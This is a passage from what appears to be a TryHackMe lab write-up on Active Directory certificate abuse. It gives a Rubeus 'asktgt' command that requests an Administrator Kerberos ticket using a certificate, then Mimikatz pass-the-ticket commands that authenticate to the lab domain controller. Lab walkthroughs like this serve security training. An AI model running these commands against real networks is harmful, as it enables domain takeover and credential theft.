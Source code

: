 	* Craft Kerberos TGT by using `Rubeus` to inject the certificate
	
		```
		C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\Users\barbara.reid\Documents\KakakSeram.pfx /password:Password@123 /outfile:kakakseram.kirbi /domain:za.tryhackme.loc /dc:10.200.60.101
		```

		![task7-rubeus](./images/task7-rubeus.png)

	*  Use Mimikatz to load the TGT and authenticate to THMDC
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe

		privilege::debug
		kerberos::ptt C:\Users\barbara.reid\kakakseram.kirbi
		```
